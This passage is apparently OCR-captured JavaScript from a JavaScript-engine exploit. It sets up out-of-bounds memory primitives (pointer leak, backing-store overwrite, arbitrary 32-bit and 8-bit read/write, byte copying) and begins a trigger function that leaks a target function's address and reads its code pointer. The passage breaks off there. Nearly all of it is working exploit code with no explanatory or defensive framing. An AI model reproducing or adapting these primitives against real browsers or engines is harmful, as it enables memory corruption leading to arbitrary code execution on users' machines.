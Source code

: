     
        gc();
    
    
    
    
        new (derived_n(tDerivedNDepth))();
    
    
        this.buffer_view = new DataView(this.buffer);
        this.leakPtr = function (obj) {
            this.page_buffer.slot = obj;
            return this.buffer_view.getUint32(kSlotOffset, true, ...this.prevent_opt);
        }
    
    
        this.setPtr = function (addr) {
            this.buffer_view.setUint32(kBackingStoreOffset, addr, true, ...this.prevent_opt);
        }
    
    
        this.read32 = function (addr) {
            this.setPtr(addr);
            return this.page_view.getUint32(0, true, ...this.prevent_opt);
        }
    
    
        this.write32 = function (addr, value) {
            this.setPtr(addr);
            this.page_view.setUint32(0, value, true, ...this.prevent_opt);
        }
    
    
        this.write8 = function (addr, value) {
            this.setPtr(addr);
            this.page_view.setUint8(0, value, ...this.prevent_opt);
        }
    
    
        this.setBytes = function (addr, content) {
            for (var i = 0; i < content.length; i++) {
                this.write8(addr + i, content[i]);
            }
        }
        return this;
    }
    
    
    function trigger() {
        var oob = oobAccess();
    
    
        var func_ptr = oob.leakPtr(target_function);
        print('[*] target_function at 0x' + func_ptr.toString(16));
    
    
        var kCodeInsOffset = 0x1b;
    
    
        var code_addr = oob.read32(func_ptr + kCodeInsOffset);
        print('[*] code_addr at 0x' + code_addr.toString(16));
    
    